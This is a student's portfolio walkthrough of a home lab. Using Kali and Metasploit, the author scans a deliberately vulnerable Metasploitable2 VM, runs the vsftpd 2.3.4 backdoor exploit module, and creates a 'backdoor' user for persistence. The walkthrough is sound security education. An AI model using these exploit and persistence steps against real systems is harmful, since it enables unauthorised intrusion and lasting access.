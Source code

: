# Metasploit for Beginners: Ethical Penetration Testing
In this project I will learn the key tools and techniques needed to conduct ethical hacking and penetration testing. The goals of this project are:
* Utilize an exploit using Metasploit to gain access to a vulnerable system
* Perform a Vulnerability Scan Analysis to enable effective vulnerability reporting
* Author comprehensive penetration testing reports with results that will enable a company to fix their vulnerabilities

There are some pre-requisite steps to take in order to complete this project
1. Download VMWare [Download for Windows and Linux](https://www.vmware.com/products/desktop-hypervisor/workstation-and-fusion)
2. Upload Kali Linuz Virtual Machine to VMWare [Download for Kali Linux Virtual Machine](https://www.kali.org/get-kali/#kali-virtual-machines)
3. Upload the Metaploitable2 Machine to VMWare [Download for Metasploit2](https://sourceforge.net/projects/metasploitable/) [Walkthrough for Metaploitable2](https://www.youtube.com/watch?v=LnRgCop4jkk)
4. Connect the Boxes in VMWare so They Can Ping Each Other [Guide](https://www.ubackup.com/enterprise-backup/how-to-connect-one-virtual-machine-to-another.html)

## Task 1: Use Nmap to Scan for Vulerable Services
* Make sure you have both the attacker machine (Kali Linux) and the target machine (Metasploitable) up and running through VMWare
* Type `ip a` into the target machine to find the ip address: `192.168.57.129`
* On the attacker machine input `ping 192.168.57.129` to make sure that the machines are connected

![alt text](https://github.com/Nathan-Reynolds09/Cybersecurity-Portfolio/blob/a0294060f801e3b3fb96deeb17ddab1e41bfd65d/Metasploit%20for%20Beginners-Ethical%20Penetration%20Testing/Images/ping.PNG)

* Type `nmap -h` into the terminal on Kali Linux to view the manual for nmap.

![alt text](https://github.com/Nathan-Reynolds09/Cybersecurity-Portfolio/blob/b77c9c4c469402b02334e3543d8cd45cd239f221/Metasploit%20for%20Beginners-Ethical%20Penetration%20Testing/Images/nmap%20h.PNG)

* To perform a nmap scan type `nmap 192.168.57.129`
* Take note on how many ports there are and how many are open. The more open ports there are, the bigger attack surface

![alt text](https://github.com/Nathan-Reynolds09/Cybersecurity-Portfolio/blob/a0294060f801e3b3fb96deeb17ddab1e41bfd65d/Metasploit%20for%20Beginners-Ethical%20Penetration%20Testing/Images/nmap%20scan.PNG)

* To perform a more in-depth scan use `nmap -sC 192.168.57.129`
* This will give way more information than just if a port is open or closed

![alt text](https://github.com/Nathan-Reynolds09/Cybersecurity-Portfolio/blob/a0294060f801e3b3fb96deeb17ddab1e41bfd65d/Metasploit%20for%20Beginners-Ethical%20Penetration%20Testing/Images/nmap%20sC.PNG)

* Add `-sV` into the scan by inputing `nmap -sC -sV 192.168.57.129`
* `-sV` stands for version number
* For example, from the scan we found out that the ftp service has a version number of `vsftpd 2.3.4`
* This is important because by knowing this version number we can look up whether it is outdated, exploitable, and work from there to try to break the machine

![alt text](https://github.com/Nathan-Reynolds09/Cybersecurity-Portfolio/blob/a0294060f801e3b3fb96deeb17ddab1e41bfd65d/Metasploit%20for%20Beginners-Ethical%20Penetration%20Testing/Images/nmap%20sV.PNG)

## Task 2: Vulnerability Research with Google Dorking
* We are going to find resources that give us information about the version number we found from before
* Open Firefox and type in `vsftpd 2.3.4 vulnerability site:rapid7.com`
* `site:rapid7.com` makes it so all the search results are from Rapid7

![alt text](https://github.com/Nathan-Reynolds09/Cybersecurity-Portfolio/blob/b5d6bae9527b78149a3a086ce6a8ba010b244b22/Metasploit%20for%20Beginners-Ethical%20Penetration%20Testing/Images/rapid7.PNG)

* By clicking on the first site, we can find out that this version number was disclosed in 2011, which means that it is an old vulnerability
* We can also find instructions on how to use and exploit this Metasploit module

![alt text](https://github.com/Nathan-Reynolds09/Cybersecurity-Portfolio/blob/b5d6bae9527b78149a3a086ce6a8ba010b244b22/Metasploit%20for%20Beginners-Ethical%20Penetration%20Testing/Images/metasploit%20module.PNG)

## Task 3: Introduction to Metasploit
* To start up Metasploit input `msfconsole`
* One piece of information we get is all the modules listed

![alt text](https://github.com/Nathan-Reynolds09/Cybersecurity-Portfolio/blob/7cab135143499e72300ead8dedf6dd93bfd12efb/Metasploit%20for%20Beginners-Ethical%20Penetration%20Testing/Images/modules.PNG)

* Input`help` into the terminal to see commands in Metasploit
* Some commands will look familiar because some of the commands are also Linux commands
* You will see some commands that only exist within Metasploit itself
* In order to get out of the Metasploit terminal, simply type `exit`

![alt text](https://github.com/Nathan-Reynolds09/Cybersecurity-Portfolio/blob/7cab135143499e72300ead8dedf6dd93bfd12efb/Metasploit%20for%20Beginners-Ethical%20Penetration%20Testing/Images/help.PNG)

## Task 4: Load Your First Metasploit Module
* Get back into the Metasploit console by typing `msfconsole`
* Input `search vsftpd 2.3.4` into the Metasploit console
* We will see there is only one module for this particular version

![alt text](https://github.com/Nathan-Reynolds09/Cybersecurity-Portfolio/blob/1ffb9dadd5295e3f6dbc54bb8539c2d1e725e9f2/Metasploit%20for%20Beginners-Ethical%20Penetration%20Testing/Images/search%20vsftps%202.3.4.PNG)

* In order to load this module input `use 0`
* There will be a change in the command line
* Input `show options` into the terminal to view the list of things we need to configure in order to properly execute our attack

![alt text](https://github.com/Nathan-Reynolds09/Cybersecurity-Portfolio/blob/1ffb9dadd5295e3f6dbc54bb8539c2d1e725e9f2/Metasploit%20for%20Beginners-Ethical%20Penetration%20Testing/Images/show%20options.PNG)

## Task 5: Configure Your First Metasploit Module
* In order to run our attack, we have to configure `RHOSTS` to be the correct IP address and then exploit it
* To do this type `set rhosts 192.168.57.129`
* To make sure that we have configured `RHOSTS` input `show options` again in the terminal and we should see the IP address next to `RHOSTS`

![alt text](https://github.com/Nathan-Reynolds09/Cybersecurity-Portfolio/blob/f05aaebd73a0c89a06eadd72b21c73c7b24c068d/Metasploit%20for%20Beginners-Ethical%20Penetration%20Testing/Images/rhosts.PNG)

* Now that the attack is pointed to the right machine all we need to do is type `exploit` for the attack to run

![alt text](https://github.com/Nathan-Reynolds09/Cybersecurity-Portfolio/blob/f05aaebd73a0c89a06eadd72b21c73c7b24c068d/Metasploit%20for%20Beginners-Ethical%20Penetration%20Testing/Images/exploit.PNG)

## Task 6: Establishing Persistence
* We have to create a backdoor account to allow us to log back into the system more easily in the future
* In order to do this type `adduser backdoor`
* It will prompt you to create a password and enter some information about the user. We don't have to fill out the information, so I kept all of it blank

![alt text](https://github.com/Nathan-Reynolds09/Cybersecurity-Portfolio/blob/83a9db51cde9d287fa9ce936c9e5bf6335e324d8/Metasploit%20for%20Beginners-Ethical%20Penetration%20Testing/Images/backdoor%20user.PNG)

* Now we can login to the account we just created. We can do that by opening another tab and typing `ssh -oHostKeyAlgorithms=+ssh-rsa backdoor@192.168.57.129` and it will ask for the password you previously created, which in this case is 'pass'

![alt text](https://github.com/Nathan-Reynolds09/Cybersecurity-Portfolio/blob/83a9db51cde9d287fa9ce936c9e5bf6335e324d8/Metasploit%20for%20Beginners-Ethical%20Penetration%20Testing/Images/login.PNG)

## Task 7: Report Our Findings
* We are going to fill out a Penetration Testing Report showcasing all of our findings to an organization called AeroTech who we tested for vulnerabilities
* You can view the report under the **Penetration Testing Report.pdf** file in the **Metasploit for Beginners-Ethical Penetration Testing** folder

## ✅ Skills Practiced
* Vulnerability Assessments
* Virtual Machines
* Linux
* Exploitation Techniques
* Metasploit
* Data Ethics
* Technical Documentation
* Penetration Testing
* Vulnerability Scanning



